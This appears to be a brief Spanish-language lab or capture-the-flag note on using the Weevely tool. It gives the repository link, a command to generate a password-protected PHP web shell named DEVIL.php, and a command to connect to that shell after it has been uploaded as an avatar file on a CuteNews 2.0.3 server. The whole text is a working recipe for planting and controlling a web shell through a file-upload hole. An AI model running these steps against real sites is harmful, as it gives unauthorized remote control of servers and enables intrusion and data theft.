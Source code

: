 # Weevely

https://github.com/epinna/weevely3.git

Generar shell
./weevely.py generate prueba DEVIL.php


Conectar con shell
./weevely.py http://servidor/cutenews.2.0.3/uploads/avatar_vicente_DEVIL.php prueba
